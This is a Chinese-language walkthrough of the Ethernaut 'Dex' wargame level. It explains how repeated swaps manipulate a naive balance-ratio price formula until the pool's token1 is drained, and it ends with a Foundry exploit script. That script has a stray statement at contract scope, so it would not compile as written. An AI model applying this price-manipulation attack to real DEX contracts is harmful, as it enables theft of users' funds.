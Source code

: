 # Level 22 - Dex
## 題目
[Dex](https://ethernaut.openzeppelin.com/level/0xB468f8e42AC0fAe675B56bc6FDa9C0563B61A52F)

### 通關條件
The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

**Quick note**
Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

### 提示
- token 的價格是如何計算的？
- `swap` 是怎麼運作的？
- 如何進行 approve ERC20 交易？
- 與合約互動的方式不只一種！
- Remix might help
- 「地址」有什麼作用？
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
    
## 解題

### token 的價格是如何計算的？
在關卡合約的 `getSwapPrice()` 中可以找到：
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
公式也就是：
    $$  Amount(token2) = \frac{Amount(token1) * Balance(token2)}{Balance(token1)} $$

### `swap` 是怎麼運作的？
`swap` 就是可以讓你把身上的 Token 丟進去換成另一種 Token，換的數量就是從上面的 function 計算出來的。
```solidity=23
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```
- 24 行：確保是關卡處理的兩種特定 token
- 25 行：確保呼叫者身上有足夠的 token 進行交易
- 26 行：計算交換價格
- 27 行：執行匯入
- 28, 29 行：將交換的 token 匯出 
### 如何進行approve ERC20 交易？
在 [Level 15 - Naught Coin](https://hackmd.io/@D13/ethernaut15) 中有介紹過，使用 `approve(address _spender, uint256 _value)` 允許 _spender 可以控制你 _value 個代幣，使用後授權額度會增加，這題應該是用於授權關卡交易我們身上的 token。


---

關卡目標是要我們講某一個 token 全數換出。這題其實不是程式上有漏洞，是決定價格的公式設計有漏洞，該公式如果重複把自己身上的某種 token 全部投進去交換的話，會導致關卡內的 token 儲量最後歸零：

|step|  `getSwapPrice()`| Dex Token1 | Dex Token2 | Player Token1 | Player Token2 |
| ---| -------- | -------- | -------- |-------- |-------- |
| | init     | 100     | 100     |10     | 10     |
| 1| player token2 = 10*100/100     | 110     | 90     |0     | 20     |
| 2| player token1 = 20*110/90     | 86     | 110     |24     | 0     |
| 3| player token2 = 24*110/86     | 110     | 80     |0     | 30     |
| 4| player token1 = 30*110/80     | 69     | 110     |41     | 0     |
| 5| player token2 = 41*110/69     | 110     | 45     |0     | 65     |
| 6| player token1 = 45*110/45     | 0     | 90     |110     | 20     |

透過上表可以確認，經過六次 `swap()` 後，就可以達到關卡條件，攻擊合約如下（記得要先 `approve()` 關卡進行交易）：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/22_Dex.sol";

contract ExploitScript is Script {
    Dex level22 = Dex(payable(your_challenge_address));
    address token1 = level22.token1();
    address token2 = level22.token2();
    IERC20(token1).balanceOf(address(this));
    function run() external {
        vm.startBroadcast();
        
        level22.approve(address(level22), type(uint).max);
        level22.swap(token1, token2, 10);
        level22.swap(token2, token1, 20);
        level22.swap(token1, token2, 24);
        level22.swap(token2, token1, 30);
        level22.swap(token1, token2, 41);
        level22.swap(token2, token1, 45);

        vm.stopBroadcast();
    }
}
```